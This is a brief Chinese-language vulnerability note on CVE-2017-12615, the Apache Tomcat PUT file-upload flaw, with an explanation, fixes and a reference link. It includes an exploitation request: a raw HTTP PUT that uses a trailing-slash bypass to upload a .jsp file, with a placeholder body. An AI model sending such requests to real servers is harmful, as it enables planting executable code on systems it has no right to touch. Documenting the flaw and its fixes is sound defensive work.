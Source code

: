 ### 0x00 简述

漏洞名称：Tomcat任意文件上传漏洞

漏洞编号：CVE-2017-12615

漏洞影响：上传包含任意代码的文件，并被服务器执行。

影响平台：Windows

影响版本：Apache Tomcat 7.0.0 - 7.0.81

### 0x01 利用

在 Windows 服务器下， 默认 readonly 为 true，当 readonly 设置为 false 时，可以通过 PUT / DELETE 进行文件操控，并可以执行任意代码。直接使用 PUT上传文件时却发现会报404：
![1583229295580](G:\workDocs\我的文档\小书匠\漏洞整理\vulnCollection\Tomcat\images\1583229295580.png)

这是因为在默认配置中，当后缀名为 .jsp 和 .jspx 的时候，是通过 JspServlet 处理请求的，要上传文件就得绕过，所以需要在文件末尾加上 `/` 进行绕过(windows下可以使用`%20`)

```
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

shell
```

### 0x02 修复

- 禁用`PUT`
- `readonly` 设为 `true`
- 升级

### 0x03 参考链接

 https://paper.seebug.org/398 